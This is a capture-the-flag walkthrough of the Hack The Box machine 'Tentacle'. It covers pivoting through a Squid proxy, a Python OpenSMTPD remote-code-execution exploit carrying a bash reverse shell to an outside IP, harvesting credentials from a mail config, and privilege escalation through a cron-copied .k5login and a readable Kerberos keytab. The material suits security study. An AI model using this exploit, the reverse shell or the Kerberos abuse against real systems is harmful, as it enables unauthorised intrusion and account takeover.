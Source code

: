 ---
layout: menu
title: "HTB Tentacle"
description: "10.10.10.224 | 40 pts"
header-img: "boxes/screenshots/49_unbalanced/unbalanced.png"
tags: [hackthebox, htb, boot2root, writeup, linux, tentacle, squid, squid proxy, proxychains, wpad, web proxy auto-discovery, web proxy auto discovery, web proxy autodiscovery, wpad.dat, kerberos, kinit, klist, kadmin, ksu, kerberos principal, principals, user principal, service principal, keytab, k5login, rsync]
---

:filesdir: /boxes/files/63_tentacle/
:imagesdir: /boxes/screenshots/63_tentacle/
:page-liquid:
:source-highlighter: rouge

+++<h1 style="color:red">+++ HTB Tentacle (10.10.10.224) +++</h1>+++

---

:toc:
:toc-title: TABLE OF CONTENTS

---

== PART 1 : INITIAL RECON

____
[source,shell,subs="verbatim,quotes"]
----
$ nmap --min-rate 3000 -oN nmap-tcp.initial -p- -Pn -T4 -v 10.10.10.224

  PORT     STATE SERVICE
  22/tcp   open  ssh
  53/tcp   open  domain
  88/tcp   open  kerberos-sec
  3128/tcp open  squid-http

$ nmap -oN nmap-tcp -p 22,53,88,3128 -Pn -sC -sV -v 10.10.10.224

  PORT     STATE SERVICE      VERSION
  22/tcp   open  ssh          OpenSSH 8.0 (protocol 2.0)
  | ssh-hostkey:
  |   3072 8d:dd:18:10:e5:7b:b0:da:a3:fa:14:37:a7:52:7a:9c (RSA)
  |   256 f6:a9:2e:57:f8:18:b6:f4:ee:03:41:27:1e:1f:93:99 (ECDSA)
  |_  256 04:74:dd:68:79:f4:22:78:d8:ce:dd:8b:3e:8c:76:3b (ED25519)
  53/tcp   open  domain       ISC BIND 9.11.20 (RedHat Enterprise Linux 8)
  | dns-nsid:
  |_  bind.version: 9.11.20-RedHat-9.11.20-5.el8
  88/tcp   open  kerberos-sec MIT Kerberos (server time: 2021-04-05 12:07:18Z)
  3128/tcp open  http-proxy   Squid http proxy 4.11
  |_http-server-header: squid/4.11
  |_http-title: ERROR: The requested URL could not be retrieved
  Service Info: Host: REALCORP.HTB; OS: Linux; CPE: cpe:/o:redhat:enterprise_linux:8

----
____

---

== PART 2 : PORT ENUMERATION

=== TCP PORT 3128 : SQUID PROXY
____
image::3128_landing_page.png[REALCORP.HTB]
____

The cache administrator seems to be `*j.nakazawa@realcorp.htb*`  and the response page seems to have been generated from `*srv01.realcorp.htb*`. The following line could now be added to the `*/etc/hosts*` file:
____
[source,shell,subs="verbatim,quotes"]
----
10.10.10.224    realcorp.htb srv01.realcorp.htb
----
____

=== TCP PORT 53 : DNS

Checking for interesting entries using `*dig*`:
____
[source,shell,subs="verbatim,quotes"]
----
$ dig realcorp.htb @10.10.10.224 ANY

  ; <<>> DiG 9.16.12-Debian <<>> realcorp.htb @10.10.10.224 ANY
  ;; global options: +cmd
  ;; Got answer:
  ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 14447
  ;; flags: qr aa rd ra; QUERY: 1, ANSWER: 2, AUTHORITY: 0, ADDITIONAL: 2

  ;; OPT PSEUDOSECTION:
  ; EDNS: version: 0, flags:; udp: 4096
  ; COOKIE: 1a6b321e3284ed2a9f10df79606b26827e20fd87e56d7383 (good)
  ;; QUESTION SECTION:
  ;realcorp.htb.			IN	ANY

  ;; ANSWER SECTION:
  realcorp.htb.		259200	IN	SOA	realcorp.htb. root.realcorp.htb. 199609206 28800 7200 2419200 86400
  realcorp.htb.		259200	IN	NS	ns.realcorp.htb.

  ;; ADDITIONAL SECTION:
  ns.realcorp.htb.	259200	IN	A	10.197.243.77

  ;; Query time: 171 msec
  ;; SERVER: 10.10.10.224#53(10.10.10.224)
  ;; WHEN: Mon Apr 05 11:02:26 EDT 2021
  ;; MSG SIZE  rcvd: 143

----
____

Now to look for interesting subdomains:

____
[source,shell,subs="verbatim,quotes"]
----
$ for i in $(cat ~/shares/security/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt); do (nslookup -type=any $i.realcorp.htb 10.10.10.224 | grep -i name); done

  Name:	ns.realcorp.htb
  proxy.realcorp.htb	canonical name = ns.realcorp.htb.
  Name:	wpad.realcorp.htb

$ nslookup proxy.realcorp.htb 10.10.10.224

  Server:		10.10.10.224
  Address:	10.10.10.224#53

  proxy.realcorp.htb	canonical name = ns.realcorp.htb.
  Name:	ns.realcorp.htb
  Address: 10.197.243.77

$ nslookup wpad.realcorp.htb 10.10.10.224

  Server:		10.10.10.224
  Address:	10.10.10.224#53

  Name:	wpad.realcorp.htb
  Address: 10.197.243.31

----
____

There were two subdomains found, `*proxy.realcorp.htb*` and `*wpad.realcorp.htb*`, but the IPs associated with them seems to be internal and is currently inaccessible from the local machine.

=== TCP PORT 22 : SSH

Trying to fail the password prompt three times will show what authentication methods are available:
____
[source,console,subs="verbatim,quotes"]
----
$ ssh -l j.nakazama 10.10.10.224

  j.nakazama@10.10.10.224's password:
  Permission denied, please try again.
  j.nakazama@10.10.10.224's password:
  Permission denied, please try again.
  j.nakazama@10.10.10.224's password:
  j.nakazama@10.10.10.224: Permission denied (gssapi-keyex,gssapi-with-mic,password).
----
____

In this case the allowed authentication methods are -- `*gssapi-keyex*`, `*gssapi-with-mic*`, `*password*`

GSSAPI Authentication seems to be supported on the machine and it is usually used with Kerberos. Knowing that there is an open TCP port 88 (Kerberos), this might be the way to authenticate into the machine.

=== TCP PORT 88 : KERBEROS

Setting up the *kerberos* configuration `*/etc/krb5.conf*`:
____
[source,shell,subs="verbatim,quotes"]
----
$ sudo mv /etc/krb5.conf /etc/krb.conf_

$ sudo vim /etc/krb5.conf
----
____
____
[source,console,subs="verbatim,quotes"]
----
[libdefaults]
	  default_realm = REALCORP.HTB
	  dns_lookup_realm = false
	  dns_lookup_kdc = false
[realms]
	  REALCORP.HTB = {
    		kdc = 10.10.10.224
  	}
----
____

Then trying to run `*kinit*` to generate a *krbtgt* ticket:

____
[source,shell,subs="verbatim,quotes"]
----
$ kinit -V j.nakazawa

  Using default cache: /tmp/krb5cc_1000
  Using principal: j.nakazawa@REALCORP.HTB
  Password for j.nakazawa@REALCORP.HTB:

----
____

Generating a `*krbtgt*` ticket seems possible for the machine however, no user credentials has been found as of yet.

---

== PART 3 : PROXYCHAINS

Adding first the initial proxy found from the nmap scan to `*/etc/proxychains.conf*`
____
[source,console,subs="verbatim,quotes"]
----
http 10.10.10.224 3128
----
____

The previously found IPs using `*nslookup*` were still unaccessible -- *10.197.243.77* (proxy.realcorp.htb) and *10.197.243.31* (wpad.realcorp.htb); however, a hop to localhost is possible:

____
[source,shell,subs="verbatim,quotes"]
----
$ proxychains nmap -p 21,22,25,53,80,88,3128 -v 127.0.0.1

  PORT     STATE  SERVICE
  21/tcp   closed ftp
  22/tcp   open   ssh
  25/tcp   closed smtp
  53/tcp   open   domain
  80/tcp   closed http
  88/tcp   open   kerberos-sec
  3128/tcp open   squid-http
----
____

The `*nmap*` scan was done with common ports. Now, adding a hop to localhost to the *proxychains* configuration:

____
[source,console,subs="verbatim,quotes"]
----
http 10.10.10.224 3128
http 127.0.0.1 3128
----
____
____
[source,shell,subs="verbatim,quotes"]
----
$ proxychains nmap -p 21,22,25,53,80,88,3128 -v 10.197.243.77

  PORT     STATE  SERVICE
  PORT     STATE  SERVICE
  21/tcp   closed ftp
  22/tcp   open   ssh
  25/tcp   closed smtp
  53/tcp   open   domain
  80/tcp   closed http
  88/tcp   open   kerberos-sec
  3128/tcp open   squid-http
----
____

A hop to *10.197.243.77* (proxy.realcorp.htb) is now possible while *10.197.243.31* (wpad.realcorp.htb) is still unaccessible. Since TCP port 3128 is still open for 10.197.243.77, might as well add it to the *proxychains* configuration file.

____
[source,console,subs="verbatim,quotes"]
----
http 10.10.10.224   3128
http 127.0.0.1      3128
http 10.197.243.77  3128
----
____
____
[source,shell,subs="verbatim,quotes"]
----
$ proxychains nmap -p 21,22,25,53,80,88,3128 -v 10.197.243.77

  PORT     STATE  SERVICE
  PORT     STATE  SERVICE
  21/tcp   closed ftp
  22/tcp   open   ssh
  25/tcp   closed smtp
  53/tcp   open   domain
  80/tcp   open   http
  88/tcp   open   kerberos-sec
  3128/tcp open   squid-http
----
____

This time, while *10.197.243.31* (wpad.realcorp.htb) is now accessible, TCP port 80 is also now open. Port 80 must be where the previously found virtualhost, `*wpad.realcorp.htb*`, was hosted. Adding the following line to the `*/etc/hosts*` file then trying to access the open http service:

____
[source,console,subs="verbatim,quotes"]
----
10.10.10.224    srv01.realcorp.htb realcorp.htb
10.197.243.31   wpad.realcorp.htb
----
____
____
[source,shell,subs="verbatim,quotes"]
----
$ proxychains curl -I http://wpad.realcorp.htb

  HTTP/1.1 403 Forbidden
  Server: nginx/1.14.1
  Date: xxx, xx xxx xxxx xx:xx:xx GMT
  Content-Type: text/html
  Content-Length: 169
  Connection: keep-alive

----
____

The page returns with a 403 (Forbidden) Response Code but, after googling the releveance of _*wpad*_, it leads you to a handful of results about *Web Proxy Auto-Discovery*. What it does is it helps browsers determine which proxy server to connect to by guiding them towards the PAC _*(proxy auto-config) file*_. In this case the PAC file for WPAD is called *wpad.dat*:
____
[source,shell,subs="verbatim,quotes"]
----
$ proxychains curl http://wpad.realcorp.htb/wpad.dat

  function FindProxyForURL(url, host) {
    if (dnsDomainIs(host, "realcorp.htb"))
        return "DIRECT";
    if (isInNet(dnsResolve(host), "10.197.243.0", "255.255.255.0"))
        return "DIRECT";
    ##if (isInNet(dnsResolve(host), "10.241.251.0", "255.255.255.0"))##
        return "DIRECT";

    return "PROXY proxy.realcorp.htb:3128";
  }
----
____

This indicates that from `*proxy.realcorp.htb:3128*`, all connections within the IP ranges specified or from domains with `*realcorp.htb*` are passed through; however, with this, a new set of IPs are found -- *10.241.251.0/24*. And now running an nmap scan for that IP range:
____
[source,shell,subs="verbatim,quotes"]
----
$ proxychains nmap -oN nmap-tcp_10.241.251.0_24 -p 21,22,25,53,80,88,3128 -v 10.241.251.0/24

$ cat nmap-tcp_10.241.251.0_24| grep -B10 open | grep -E "Nmap|open|PORT"

  Nmap scan report for 10.241.251.1
  PORT     STATE  SERVICE
  22/tcp   open   ssh
  53/tcp   open   domain
  88/tcp   open   kerberos-sec
  3128/tcp open   squid-http

  Nmap scan report for 10.241.251.113
  PORT     STATE  SERVICE
  ##25/tcp   open   smtp##
----
____

There seems to be open ports in `*10.241.251.1*` the same as the ones found from previous scans but this time, there is an open TCP port 25 (SMTP) on `*10.241.251.113` and doing a service scan using `*nmap*` reveals the following:
____
[source,shell,subs="verbatim,quotes"]
----
$ proxychains nmap -p 25 -sC -sV -v 10.241.251.113

  PORT   STATE SERVICE VERSION
  25/tcp open  smtp    OpenSMTPD
  | smtp-commands: smtp.realcorp.htb Hello nmap.scanme.org [10.241.251.1], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP,
  |_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info
  Service Info: Host: smtp.realcorp.htb
----
____

---

== PART 4 : EXPLOITATION

An *OpenSMTPD 2.0.0* service seems to be running on `10.241.251.113` and upon searching for an existing, this came up --
link:https://blog.firosolutions.com/exploits/opensmtpd-remote-vulnerability/[Remote code execution in OpenSMTPD]. A few lines from the exploit were edited since it will not work right out the box:

____
[source,python,subs="verbatim,quotes"]
----
import socket, time
import sys

#HOST = "10.241.251.113"#
PORT = 25              # smtp port
s = None
###writeto = input("Which file do you want to write to?: ")#raw inputen##
###writewhat = input("What do you want to write to the file?: ")##
payload = b"""\r\n
#0\r\n
#1\r\n
#2\r\n
#3\r\n
#4\r\n
#5\r\n
#6\r\n
#7\r\n
#8\r\n
#9\r\n
#a\r\n
#b\r\n
#c\r\n
#d\r\n
##bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'##
.
"""
for res in socket.getaddrinfo(HOST, PORT, socket.AF_UNSPEC, socket.SOCK_STREAM):
    af, socktype, proto, canonname, sa = res
    try:
        s = socket.socket(af, socktype, proto)
    except OSError as msg:
        s = None
        continue
    try:
        s.connect(sa)
    except OSError as msg:
        s.close()
        s = None
        continue
    break
if s is None:
    print('could not open socket')
    sys.exit(1)
with s:
	data = s.recv(1024)
	print('Received', repr(data))
	time.sleep(1)
	print('sending')
	s.send(b"helo test.com\r\n")
	data = s.recv(1024)
	print('Received', repr(data))
	s.send(b"MAIL FROM:<;for i in 0 1 2 3 4 5 6 7 8 9 a b c d;do read r;done;sh;exit 0;>\r\n")
	time.sleep(1)
	data = s.recv(1024)
	print('Received', repr(data))
	##s.send(b"RCPT TO:<j.nakazawa@realcorp.htb>\r\n")##
	data = s.recv(1024)
	print('Received', repr(data))
	s.send(b"DATA\r\n")
	data = s.recv(1024)
	print('Received', repr(data))
	s.send(payload)
	data = s.recv(1024)
	print('Received', repr(data))
	s.send(b"QUIT\r\n")
	data = s.recv(1024)
	print('Received', repr(data))
print("done")
s.close()
----
____

And upon running the exploit:
____
[source,shell,subs="verbatim,quotes"]
----
$ proxychains python3 exploit.py

  Received b'220 smtp.realcorp.htb ESMTP OpenSMTPD\r\n'
  sending
  Received b'250 smtp.realcorp.htb Hello test.com [10.241.251.1], pleased to meet you\r\n'
  Received b'250 2.0.0 Ok\r\n'
  Received b'250 2.1.5 Destination address valid: Recipient ok\r\n'
  Received b'354 Enter mail, end with "." on a line by itself\r\n'
  Received b'250 2.0.0 da629965 Message accepted for delivery\r\n'
  Received b'221 2.0.0 Bye\r\n'
  done
----
____

A reverse shell started via *netcat* listener on port 443 was spawned:
____
[source,shell,subs="verbatim,quotes"]
----
$ sudo nc -lvp 443

root@smtp:~# id

  uid=0(root) gid=0(root) groups=0(root)

root@smtp:~# hostname

  smtp.realcorp.htb
----
____

---

== PART 5 : GENERATING USER SHELL (j.nakazawa)

Enumerating inside the reverse shell established from `*10.241.251.113*`:

____
[source,shell,subs="verbatim,quotes"]
----
root@smtp:/# cat /etc/passwd | grep -E "sh$"

  root:x:0:0:root:/root:/bin/bash
  j.nakazawa:x:1000:1000::/home/j.nakazawa:/bin/bash

root@smtp:/# cd /home/j.nakazawa

root@smtp:/home/j.nakazawa# ls -la

  total 16
  drwxr-xr-x. 1 j.nakazawa j.nakazawa   59 Apr  6 06:18 .
  drwxr-xr-x. 1 root       root         24 Dec  8 10:56 ..
  lrwxrwxrwx. 1 root       root          9 Dec  9 12:31 .bash_history -> /dev/null
  -rw-r--r--. 1 j.nakazawa j.nakazawa  220 Apr 18  2019 .bash_logout
  -rw-r--r--. 1 j.nakazawa j.nakazawa 3526 Apr 18  2019 .bashrc
  ##-rw-------. 1 j.nakazawa j.nakazawa  476 Dec  8 19:12 .msmtprc##
  -rw-r--r--. 1 j.nakazawa j.nakazawa  807 Apr 18  2019 .profile
  lrwxrwxrwx. 1 root       root          9 Dec  9 12:31 .viminfo -> /dev/null

root@smtp:/home/j.nakazawa# cat .msmtprc

  # Set default values for all following accounts.
  defaults
  auth           on
  tls            on
  tls_trust_file /etc/ssl/certs/ca-certificates.crt
  logfile        /dev/null

  # RealCorp Mail
  account        realcorp
  host           127.0.0.1
  port           587
  from           j.nakazawa@realcorp.htb
  ##user           j.nakazawa##
  ##password       sJB}RM>6Z~64_##
  tls_fingerprint	C9:6A:B9:F6:0A:D4:9C:2B:B9:F6:44:1F:30:B8:5E:5A:D8:0D:A5:60

  # Set a default account
  account default : realcorp
----
____

Using the credentials found (`*j.nakazawa:sJB}RM>6Z~64_*`) to SSH into *10.10.10.224* fails; however earlier, kerberos is enabled and to generate a *krbtgt* ticket, a password is needed:
____
[source,shell,subs="verbatim,quotes"]
----
$ kinit -V j.nakazawa

  Using default cache: /tmp/krb5cc_1000
  Using principal: j.nakazawa@REALCORP.HTB
  Password for j.nakazawa@REALCORP.HTB: sJB}RM>6Z~64_
  Authenticated to Kerberos v5

$ klist

  Ticket cache: FILE:/tmp/krb5cc_1000
  Default principal: j.nakazawa@REALCORP.HTB

  Valid starting       Expires              Service principal
  xx/xx/xxxx xx:xx:xx  xx/xx/xxxx xx:xx:xx  krbtgt/REALCORP.HTB@REALCORP.HTB
----
____

The authentication via *kerberos* succeeded and a ticket valid for 24 hours was generated. Using this to login via SSH, the `*/etc/hosts*` needs to be modified to give priority to `*srv01.realcorp.htb*`:

____
[source,console,subs="verbatim,quotes"]
----
##10.10.10.224    srv01.realcorp.htb realcorp.htb##
10.197.243.31   wpad.realcorp.htb
----
____

____
[source,shell,subs="verbatim,quotes"]
----
$ ssh -l j.nakazawa 10.10.10.224

[j.nakazawa@srv01 ~]$ id

  uid=1000(j.nakazawa) gid=1000(j.nakazawa) groups=1000(j.nakazawa),23(squid),100(users) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

[j.nakazawa@srv01 ~]$ hostname

  srv01.realcorp.htb

[j.nakazawa@srv01 ~]$ ls -l user.txt

  -r--------. 1 j.nakazawa j.nakazawa 33 Apr  6 19:52 user.txt
----
____

The reason for this becomes apparent when `*klist*` is run again on the local machine:

____
[source,shell,subs="verbatim,quotes"]
----
$ klist

  Ticket cache: FILE:/tmp/krb5cc_1000
  Default principal: j.nakazawa@REALCORP.HTB

  Valid starting       Expires              Service principal
  xx/xx/xxxx xx:xx:xx  xx/xx/xxxx xx:xx:xx  krbtgt/REALCORP.HTB@REALCORP.HTB
  xx/xx/xxxx xx:xx:xx  xx/xx/xxxx xx:xx:xx  host/srv01.realcorp.htb@
  	Ticket server: host/srv01.realcorp.htb@REALCORP.HTB
----
____

The machine was using `*srv01.realcorp.htb*` for kerberos authentication and a ticket for the host was acuired during the connection.

---

== PART 6 : CHANGING USER (j.nakazawa -> admin)

Enumerating inside the machine as `*j.nakazawa*`:

____
[source,shell,subs="verbatim,quotes"]
----
[j.nakazawa@srv01 ~]$ cat /etc/passwd | grep -E "sh$"

  root:x:0:0:root:/root:/bin/bash
  j.nakazawa:x:1000:1000::/home/j.nakazawa:/bin/bash
  admin:x:1011:1011::/home/admin:/bin/bash

[j.nakazawa@srv01 ~]$ grep -r -E "root|admin" /etc/cron*

  /etc/cron.d/0hourly:MAILTO=root
  /etc/cron.d/0hourly:01 * * * * root run-parts /etc/cron.hourly
  /etc/cron.d/raid-check:0 1 * * Sun root /usr/sbin/raid-check
  /etc/crontab:MAILTO=root
  /etc/crontab:##* * * * * admin /usr/local/bin/log_backup.sh##
----
____

After looking for other users in the machine, system cronjobs were checked and one was created by the user, `*admin*` -- `*/usr/local/bin/log_backup.sh*`. Upon checking the contents:

____
[source,sh,subs="verbatim,quotes"]
----
#!/bin/bash

/usr/bin/rsync -avz --no-perms --no-owner --no-group /var/log/squid/ /home/admin/
cd /home/admin
/usr/bin/tar czf squid_logs.tar.gz.`/usr/bin/date +%F-%H%M%S` access.log cache.log
/usr/bin/rm -f access.log cache.log
----
____

This will archive/compress the contents of `*/var/log/squid/*` and copy it to `*/home/admin/*`. It will then compress log files and save it before deleting them.

Now, leveraging the `*rsync*` being run in the cronjob, we need to search if the directories involved are writable:

____
[source,shell,subs="verbatim,quotes"]
----
[j.nakazawa@srv01 ~]$ id

  uid=1000(j.nakazawa) gid=1000(j.nakazawa) groups=1000(j.nakazawa),##23(squid)##,100(users)
  context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

[j.nakazawa@srv01 log]$ find / -gid 23 #-writable# 2>/dev/null

  #/var/log/squid#
----
____

Since, the current user is a member of the `*squid*` group (23), the directory `/var/log/squid/` should be writable.

____
[source,shell,subs="verbatim,quotes"]
----
[j.nakazawa@srv01 log]$ echo j.nakazawa@REALCORP.HTB > /var/log/squid/.k5login
----
____

The reason for writing a `*.k5login*` file which will then be copied into the `*/home/admin/*` directory is that if you want other users to be able to login to your account using kerberos, you need to add their principal name (in this case, `*j.nakazawa@REALCORP.HTB*`) into a `*.k5login*` in your home directory (`*~/.k5login*`). With this, we should now be able to login with the user, `*admin*`, once the cronjob finishes execution.

____
[source,shell,subs="verbatim,quotes"]
----
$ ssh -l admin 10.10.10.224

[admin@srv01 ~]$ id

  uid=1011(admin) gid=1011(admin) groups=1011(admin),23(squid)
  context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

[admin@srv01 ~]$ hostname

  srv01.realcorp.htb
----
____

---

== PART 7 : PRIVILEGE ESCALATION (admin -> root)

Enumerating inside the machine as `*admin*`:

____
[source,shell,subs="verbatim,quotes"]
----
[admin@srv01 ~]$ id

  #uid=1011(admin)# gid=1011(admin) groups=1011(admin),23(squid)
  context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

[admin@srv01 ~]$ find / -gid 1011 #-readable# 2>/dev/null | grep -vE "^.proc|^.run|^.sys"

  #/etc/krb5.keytab#
  /usr/local/bin/log_backup.sh
  /home/admin
  /home/admin/.ssh

[admin@srv01 ~]$ file /etc/krb5.keytab

  /etc/krb5.keytab: Kerberos Keytab file, realm=REALCORP.HTB, principal=host/srv01.realcorp.htb, type=1, date=Tue Dec  8 22:15:30 2020, kvno=2
----
____

Searching for all readable files by the user, `*admin*`, returns a readable keytab file -- `*/etc/krb5.keytab*`. It is where service principal keys are stored and improper permissions or having read access to the file enables an attacker to impersonate service accounts.

____
[source,shell,subs="verbatim,quotes"]
----
[admin@srv01 ~]$ klist -k /etc/krb5.keytab

  Keytab name: FILE:/etc/krb5.keytab
  KVNO Principal
  ---- --------------------------------------------------------------------------
     2 host/srv01.realcorp.htb@REALCORP.HTB
     2 host/srv01.realcorp.htb@REALCORP.HTB
     2 host/srv01.realcorp.htb@REALCORP.HTB
     2 host/srv01.realcorp.htb@REALCORP.HTB
     2 host/srv01.realcorp.htb@REALCORP.HTB
     2 kadmin/changepw@REALCORP.HTB
     2 kadmin/changepw@REALCORP.HTB
     2 kadmin/changepw@REALCORP.HTB
     2 kadmin/changepw@REALCORP.HTB
     2 kadmin/changepw@REALCORP.HTB
     2 kadmin/admin@REALCORP.HTB
     2 kadmin/admin@REALCORP.HTB
     2 kadmin/admin@REALCORP.HTB
     2 kadmin/admin@REALCORP.HTB
     2 kadmin/admin@REALCORP.HTB
----
____

Viewing the contents of the keytab file, there two accounts that could be impersonated using `*kadmin*`-- `kadmin/changepw@REALCORP.HTB` and `*kadmin/admin@REALCORP.HTB*`
____
[source,shell,subs="verbatim,quotes"]
----
[admin@srv01 ~]$ kadmin -k -t /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB

kadmin: get_privs

  current privileges: INQUIRE ##ADD## MODIFY DELETE

kadmin: add_principal root@REALCORP.HTB

  No policy specified for root@REALCORP.HTB; defaulting to no policy
  Enter password for principal "root@REALCORP.HTB": ggwp
  Re-enter password for principal "root@REALCORP.HTB": ggwp
  Principal "root@REALCORP.HTB" created.

kadmin: exit
----
____

It seems like the `*admin*` account has `*ADD*` privileges to *Kerberos* and with that, a user principal, `*root@REALCORP.HTB*`, was successfully created. Now, to gain root access:

____
[source,shell,subs="verbatim,quotes"]
----
[admin@srv01 ~]$ ksu

  WARNING: Your password may be exposed if you enter it here and are logged
           in remotely using an unsecure (non-encrypted) channel.
  Kerberos password for root@REALCORP.HTB: : ggwp

[root@srv01 admin]# id

  uid=0(root) gid=0(root) groups=0(root)
  context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c102

[root@srv01 admin]# ls -l /root/root.txt

  -r--------. 1 root root 33 Apr  7 00:04 /root/root.txt

[root@srv01 admin]# ip addr

  1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
      link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
      inet 127.0.0.1/8 scope host lo
         valid_lft forever preferred_lft forever
      inet6 ::1/128 scope host
         valid_lft forever preferred_lft forever
  2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
      link/ether 00:50:56:b9:d3:48 brd ff:ff:ff:ff:ff:ff
      inet 10.10.10.224/24 brd 10.10.10.255 scope global noprefixroute ens192
         valid_lft forever preferred_lft forever
      inet 10.197.243.77/24 brd 10.197.243.255 scope global noprefixroute ens192:0
         valid_lft forever preferred_lft forever
      inet 10.197.243.31/24 brd 10.197.243.255 scope global secondary noprefixroute ens192:1
         valid_lft forever preferred_lft forever
      inet6 dead:beef::4627:8a70:2d81:989f/64 scope global dynamic noprefixroute
         valid_lft 86368sec preferred_lft 14368sec
      inet6 fe80::6588:7412:db10:612c/64 scope link noprefixroute
         valid_lft forever preferred_lft forever
